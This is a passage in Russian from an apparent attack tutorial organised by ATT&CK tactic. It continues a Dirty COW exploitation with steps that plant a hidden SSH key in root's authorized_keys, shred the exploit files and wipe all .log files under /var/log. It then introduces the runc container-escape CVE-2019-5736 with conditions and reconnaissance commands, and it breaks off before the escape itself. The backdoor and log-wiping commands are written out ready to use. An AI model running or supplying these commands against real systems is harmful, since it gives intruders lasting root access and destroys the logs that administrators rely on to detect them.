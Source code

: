 **Шаг 2: Установка скрытого SSH-ключа**  
```bash
mkdir -p /root/.ssh
chmod 700 /root/.ssh

# Генерация ключа на атакующей машине (ЗАРАНЕЕ)
ssh-keygen -f hacker_rsa -N ""

# Добавление в authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2E..." >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

**Шаг 3: Скрытие следов**  
```bash
# Удаление эксплоита и временных файлов
shred -zu dirtyc0w dirtyc0w.c /tmp/passwd

# Очистка логов
find /var/log -name "*.log" -exec sh -c 'echo > {}' \;
```

---

#### Пример 2: CVE-2019-5736 (Побег из Docker)  
**Контекст:**  
Уязвимость в runc (инструмент управления контейнерами) позволяла перезаписать хост-бинарник через подмену `/proc/self/exe`.  

**Условия эксплуатации:**  
- runc версий < 1.0.0-rc7  
- Привилегированный контейнер (`docker run --privileged`)  

---

##### [TA0007] – Discovery  
```bash
# 1. Проверка версии runc
runc --version
# Вывод: runc version 1.0.0-rc6

# 2. Поиск бинарника
ls -l /proc/self/exe
# lrwxrwxrwx 1 root root 0 /proc/self/exe -> /usr/bin/runc

# 3. Проверка привилегий контейнера
cat /proc/self/status | grep CapEff
# CapEff: 0000003fffffffff (полные привилегии)
```
**Пояснение:**  
1. `/proc/self/exe` — символическая ссылка на исполняемый файл текущего процесса.  
2. Привилегированный контейнер имеет `CAP_SYS_ADMIN`, что позволяет использовать `memfd_create`.  

---
